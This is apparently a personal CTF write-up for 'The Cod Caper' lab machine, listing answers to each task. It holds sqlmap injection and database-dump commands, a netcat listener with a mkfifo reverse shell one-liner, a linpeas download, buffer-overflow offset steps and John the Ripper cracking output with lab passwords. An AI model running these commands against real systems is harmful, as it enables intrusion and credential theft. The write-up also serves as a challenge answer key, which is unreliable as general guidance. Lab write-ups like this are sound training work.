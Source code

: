 # Machine NAME : The Cod Caper
# Machine IP : 10.10.110.116

***TASK 1 : Intro***

***TASK 2 : Host Enumeration***
1. How many ports are open on the target machine? : 2 <br>
2. What is the http-title of the web server? : Apache2 Ubuntu Default Page: It works <br>
3. What version is the ssh service? : OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 <br>
4. What is the version of the web server? : Apache/2.4.18 <br>

***TASK 3: Web Enumeration***
1. What is the name of the important file on the server? 
: /administrator.php <br>

***TASK 4: Web Exploitation***
1.sqlmap -u {IP} --data "username=&password="  --form 
2.sqlmap -u {IP} --data "username=&password=" --data 'username=&password='-a  
 &nbsp;2.1 do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
 &nbsp;2.2. do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] y
 &nbsp;2.3. what dictionary do you want to use : 1
  &nbsp;&nbsp; [1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
  &nbsp;&nbsp; [2] custom dictionary file
  &nbsp;&nbsp; [3] file with list of dictionary files
  &nbsp; 2.4. do you want to use common password suffixes? (slow!) [y/N] N
3.sqlmap -u http://{IP}/administrator.php --data 'username=&password=' --dbs
4.sqlmap -u http://10.10.223.60/administrator.php --data "username=&password=" -D users --tables
5.sqlmap -u http://10.10.223.60/administrator.php --data "username=&password=" -D users -T users --dump

1.What is the admin username? : pingudad
2.What is the admin password? : secretpass
3.How many forms of SQLI is the form vulnerable to? 3


***TASK 5: Command Execution***
1.How many files are in the current directory? 3
2.Do I still have an account : yes

3 What is my ssh password? :pinguapingu
&nbsp; 3.1 reverse shell command
       - Listen Command : nc -lvnp 4444
       - reverse shell connect command : rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
       - I thinked for find ssh password
       - 1st See that log file ...if the "/var" directory?
       - ssh password is

***TASK 6: LinEnum***
1. What is the interesting path of the interesting suid file? : /opt/secret/root
- python3 -m http.server 780
- wget http://{IP}/linpeas.sh
- ./linpeas.sh 

***TASK 7: pwndbg***
***TASK 8: Binary-Exploitation : Manually***
***TASK 9: Binary-Exploitation : The pwntools way***
1. cyclic 50
2. echo "cyclic 50" | ./root2
3. check the hex value : dmesg
4. python2 ./cylic -l bytes

***Task 10: Finishing the job***
1.papa crack passwd file using john the ripper
└──╼ #john --wordlist=/usr/share/wordlists/rockyou.txt shadow
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
postman          (papa)
1g 0:00:00:00 DONE (2020-05-27 17:22) 1.886g/s 40754p/s 40754c/s 40754C/s spices..playball
Use the "--show" option to display all of the cracked passwords reliably
Session completed

2.root crack passwd file using john the ripper
──╼ #john --wordlist=/usr/share/wordlists/rockyou.txt shadow                                                     
Warning: only loading hashes of type "sha512crypt", but also saw type "md5crypt"
Use the "--format=md5crypt" option to force loading hashes of that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:07 0.04% (ETA: 23:00:56) 0g/s 872.7p/s 872.7c/s 872.7C/s horoscope..crazy8
0g 0:00:01:50 0.46% (ETA: 00:09:43) 0g/s 724.4p/s 724.4c/s 724.4C/s alex55..Bulldog
0g 0:00:01:51 0.47% (ETA: 00:09:03) 0g/s 725.6p/s 725.6c/s 725.6C/s vivita..tazzman
love2fish        (root)
1g 0:00:04:57 DONE (2020-05-27 17:39) 0.003366g/s 807.5p/s 807.5c/s 807.5C/s lovelife07..lossims
Use the "--show" option to display all of the cracked passwords reliably
Session completed


